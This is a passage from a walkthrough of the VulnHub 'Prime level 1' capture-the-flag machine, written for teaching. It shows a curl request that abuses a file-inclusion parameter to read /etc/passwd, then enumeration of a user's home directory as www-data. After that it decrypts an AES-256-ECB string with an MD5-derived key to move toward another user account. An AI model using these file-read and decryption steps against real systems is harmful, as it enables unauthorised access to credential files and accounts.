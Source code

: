 ```curl http://192.168.20.149/image.php?secrettier360=/etc/passwd```
\-rw-r--r-- 1 root root 237 Sep 14 10:03 enc.txt

\-rw-r--r-- 1 root root 33 Aug 31 03:14 user.txt

\-rw------- 1 root root 20 Aug 31 03:08 .bash_history

\-rwxr-x--x 1 root root 14K Aug 30 08:48 enc

\-rw-r--r-- 1 root root 18 Aug 29 13:59 password.txt

drwxr-xr-x 4 root root 4.0K Aug 29 13:58 ..

Enumerating these files further.

www-data\@ubuntu:/home/saket\$ cat key.txt enc.txt

cat key.txt enc.txt

I know you are the fan of ippsec.

So convert string "ippsec" into md5 hash and use it to gain yourself in your
real form.

nzE+iKr82Kh8BOQg0k/LViTZJup+9DReAsXd/PCtFZP5FHM7WtJ9Nz1NmqMi9G0i7rGIvhK2jRcGnFyWDT9MLoJvY1gZKI2xsUuS3nJ/n3T1Pe//4kKId+B3wfDW/TgqX6Hg/kUj8JO08wGe9JxtOEJ6XJA3cO/cSna9v3YVf/ssHTbXkb+bFgY7WLdHJyvF6lD/wfpY2ZnA1787ajtm+/aWWVMxDOwKuqIT1ZZ0Nw4=

### www-data to saket user

The key.txt file urges to hash “ippsec” string into md5 format.

root\@kali:\~\# echo -n ippsec \| md5sum

366a74cb3c959de17d61db30591c39d1 -

The enc.txt file output looks like a base64 string, which Kali can be used to
decode. However, when trying to simply decode it, the result turns out
fruitless. This is due to base64 string being encrypted with AES encryption.

There is an online tool which can help with decryption at
<https://www.devglan.com/online-tools/aes-encryption-decryption>. However, this
can also be done manually as show below.

As per [OpenSSL](<https://wiki.openssl.org/index.php/Enc>) documentation the
“The key and the IV are given in hex.” There is no IV in this case, however the
key has to be converted to hex.

root\@kali:\~/vulnhub/prime_level1\# echo -n 366a74cb3c959de17d61db30591c39d1 \|
od -A n -t x1

33 36 36 61 37 34 63 62 33 63 39 35 39 64 65 31

37 64 36 31 64 62 33 30 35 39 31 63 33 39 64 31

After playing around with different encryption ciphers the suitable one has been
found AES 256 ECB.

Below are the commands needed to decrypt the base64 string.

root\@kali:\~/vulnhub/prime_level1\# echo
"nzE+iKr82Kh8BOQg0k/LViTZJup+9DReAsXd/PCtFZP5FHM7WtJ9Nz1NmqMi9G0i7rGIvhK2jRcGnFyWDT9MLoJvY1gZKI2xsUuS3nJ/n3T1Pe//4kKId+B3wfDW/TgqX6Hg/kUj8JO08wGe9JxtOEJ6XJA3cO/cSna9v3YVf/ssHTbXkb+bFgY7WLdHJyvF6lD/wfpY2ZnA1787ajtm+/aWWVMxDOwKuqIT1ZZ0Nw4="
```
